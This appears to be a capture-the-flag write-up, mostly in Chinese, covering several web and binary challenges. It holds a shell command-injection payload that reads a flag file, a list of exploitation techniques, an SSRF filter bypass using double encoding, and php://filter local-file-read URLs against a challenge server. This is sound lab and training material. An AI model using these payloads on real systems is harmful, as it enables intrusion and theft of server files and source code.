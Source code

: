 # isc.taiwan-te.ch

## admin-panel
  `my_session` is base64  

## ls
```bash
$(echo > /tmp/$(tail /$(echo fl)$(echo ag)); echo /tmp)
```


## pwns
  - pwntools
  - bof
  - bof2
  - ret2sc
  - gothijack 找到got位置指向shellcode
  - rop
  - ret2plt
  - ret2libc

  ### notes  
  - see github source code 
  - 避免分散發出封包
  - `context.log_level ='debug'`


## jssrf
1. [see source code](http://140.118.126.237:8889/source)
2. 本網頁透過`3000`作為公開端口，並且透過該端口接收api，之後過濾輸入內容之後傳到內部端口`3333`。
3. 過濾器`限制長度`與`../`，前者透過path[]繞過，後者透過兩次編碼繞過
4. 得到flag的emoji，一樣兩次編碼繞過第二個過濾器得出結果
5. [get flag](http://140.118.126.237:8889/?path[]=.%252e/flag?tok%25%36%35n=SUP3R_S3CR3T_T0K3N)

## re-d1v1n6
  1. 讓php報錯之後得知`file_get_contents()`函數使用，
  2. 透過`php://filter` 下載base64內容不完整，採用zlib.deflate
  [下載](http://140.118.126.237:8890/?p=php://filter/zlib.deflate/resource=index.php)
  並且解壓縮得到完整的原始碼，執行後得到
  `flag hint: 9GBz6DJ71S1JbPiHYI45.php; fl4g format: flag{[a-z]{16}}`。
  3. 得到該php的[source code](http://140.118.126.237:8890/?p=9GBz6DJ71S1JbPiHYI45.php)
   與[可執行的網站](http://140.118.126.237:8890/?p=http://127.0.0.1/9GBz6DJ71S1JbPiHYI45.php)
  4. ~~透過[過濾器移除tag](http://140.118.126.237:8890/?p=php://filter/string.strip_tags/resource=http://127.0.0.1/9GBz6DJ71S1JbPiHYI45.php?dir=fl4g_1n_th15_d1rect0ry_ju5t_0p3n_m3)~~
    透過[壓縮](http://140.118.126.237:8890/?p=php://filter/zlib.deflate/resource=http%3A%2F%2F127.0.0.1%2F9GBz6DJ71S1JbPiHYI45.php%3Fdir%3Dfl4g_1n_th15_d1rect0ry_ju5t_0p3n_m3)
    換取空間得到更多的資訊，但此方法不是很穩定可以得到解答
  
  - 參見`re-d1v1n6.py`

